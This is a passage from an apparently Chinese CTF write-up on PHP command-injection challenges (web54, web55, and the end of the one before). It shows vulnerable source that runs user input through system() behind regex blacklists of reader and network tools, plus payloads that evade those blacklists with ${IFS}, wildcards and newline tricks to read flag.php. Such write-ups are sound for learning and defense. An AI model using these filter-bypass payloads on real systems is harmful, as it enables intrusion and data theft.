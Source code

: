 > 
Payload


```
?c=nl${IFS}fla''g.php%0a

```

## web54

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\&gt;|\&lt;/i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 

```

> 
Payload


```
?c=/bin/?at${IFS}f?ag.php%0a

```

## web55

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\&gt;|\&lt;/i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}

```
